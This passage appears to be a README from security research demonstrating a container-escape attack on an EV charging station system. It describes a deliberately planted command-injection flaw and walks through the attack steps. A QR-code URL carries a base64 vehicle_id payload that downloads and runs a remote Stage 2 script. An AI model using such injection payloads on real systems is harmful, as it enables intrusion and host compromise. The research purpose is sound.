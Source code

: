 ### Scenario 2: Escape to Host via Memory Injection and Execution on Containers with Elevated Privileges
- [Demo Video](videos/Ev_Demo_Scenario2_Compressed.mp4)
- Background
    - The charging station provides a QR code to the users who have the app and are logged in. The url in the QR resolves into an API request that would just start the charging process if a vehicle is plugged in. The app adds the vehicle_id into the request and makes the request.
    - The request to start charging is handled at the server and the server wants to verify the data being submitted by the call is actually valid. For that purpose it crafts a specific OCPP command to ask the charging station verify the data (vehicle information).
    - When the charging station receives the information to verify, it then forwards it to the hw-manager service that can actually physically verify the data (vehicle information). When the confirmation completes, the charging starts. hw-manager runs in its own container where it has access to SYS_PTRACE capability, bacause it needs access to hardware resources with elevated privileges, which is not possible with constrained container. 
    - The vulnerability we introduce here is that the data being passed as vehicle data is not scrutinized in any part of the charging process, it can be summarized with the following vulnerabilities.
        - MITRE 2024 CWE Top 25 #13  Improper Neutralization of Special Elements used in a Command ('Command Injection') ([CWE-77](https://cwe.mitre.org/data/definitions/77.html))
        - Improper Neutralization of Argument Delimiters in a Command ('Argument Injection') ([CWE-88](https://cwe.mitre.org/data/definitions/88.html))
        - MITRE 2024 CWE Top 25 #11  Improper Neutralization of Special Elements used in a Command ('Command Injection') ([CWE-94](https://cwe.mitre.org/data/definitions/94.html))
        - Improper Isolation or Compartmentalization ([CWE-653](https://cwe.mitre.org/data/definitions/653.html))


- Steps in the attack scenario
    - Assumption: There is target process running on the host machine.
    ``` bash
    # For cheri run the following process to be the target
    ./simple_http_server_cheri &

    # For non cheri just run a simple python httpserver
    python -m http.server 5151 &
    ```
    - The attacker starts the ev-buster script that:
        - Generates a QR code for the app to read but also inject a malicious payload (Stage 1) in place of vehicle_id
        - Starts an http server to server the Stage 2 payload for the victim to download.
    
            <details>
            <summary>ev-buster usage with "cheri_off" </summary>  
        
            ```bash
            python ev-buster.py "cheri_off"
            Serving at port 8080 from directory: /home/parrot/Desktop/test/attacker
            Generating QR Code with the Stage 1 Payload
            https://dsbd-cms-001.loca.lt/api/start?charging_point_id=CP_1&vehicle_id=QUNNRTsgY3VybCAtTyAtSiAxOTIuMTY4LjAuMTAyOjgwODAvc2hhd3NoYW5rLnRhciA7dGFyIC14ZiBzaGF3c2hhbmsudGFyO3B5dGhvbjMgc2hhd3NoYW5rLnB5IGNoZXJpX29mZg==
                                                                             